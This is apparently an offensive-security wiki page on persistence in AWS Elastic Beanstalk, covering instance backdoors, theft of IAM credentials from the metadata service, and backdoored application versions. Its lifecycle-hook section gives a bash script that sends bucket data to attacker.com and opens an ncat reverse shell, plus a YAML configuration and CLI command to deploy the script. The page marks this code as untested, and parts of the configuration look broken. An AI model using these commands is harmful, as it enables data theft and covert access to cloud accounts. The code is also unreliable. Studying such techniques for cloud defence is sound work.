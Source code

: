 # AWS - Elastic Beanstalk Persistence

## Elastic Beanstalk

For more information check:

[[../aws-services/aws-elastic-beanstalk-enum.md]]

### Persistence in Instance

In order to maintain persistence inside the AWS account, some **persistence mechanism could be introduced inside the instance** (cron job, ssh key...) so the attacker will be able to access it and steal IAM role **credentials from the metadata service**.

### Backdoor in Version

An attacker could backdoor the code inside the S3 repo so it always execute its backdoor and the expected code.

### New backdoored version

Instead of changing the code on the actual version, the attacker could deploy a new backdoored version of the application.

### Abusing Custom Resource Lifecycle Hooks

> [!NOTE]
> TODO: Test

Elastic Beanstalk provides lifecycle hooks that allow you to run custom scripts during instance provisioning and termination. An attacker could **configure a lifecycle hook to periodically execute a script that exfiltrates data or maintains access to the AWS account**.

```bash
# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
  AWSEBAutoScalingGroup:
    Metadata:
      AWS::ElasticBeanstalk::Ext:
        TriggerConfiguration:
          triggers:
            - name: stealthy-lifecycle-hook
              events:
                - "autoscaling:EC2_INSTANCE_LAUNCH"
                - "autoscaling:EC2_INSTANCE_TERMINATE"
              target:
                ref: "AWS::ElasticBeanstalk::Environment"
              arn:
                Fn::GetAtt:
                  - "AWS::ElasticBeanstalk::Environment"
                  - "Arn"
  stealthyLifecycleHook:
    Type: AWS::AutoScaling::LifecycleHook
    Properties:
      AutoScalingGroupName:
        Ref: AWSEBAutoScalingGroup
      LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
      NotificationTargetARN:
        Ref: stealthy-lifecycle-hook
      RoleARN:
        Fn::GetAtt:
          - AWSEBAutoScalingGroup
          - Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```


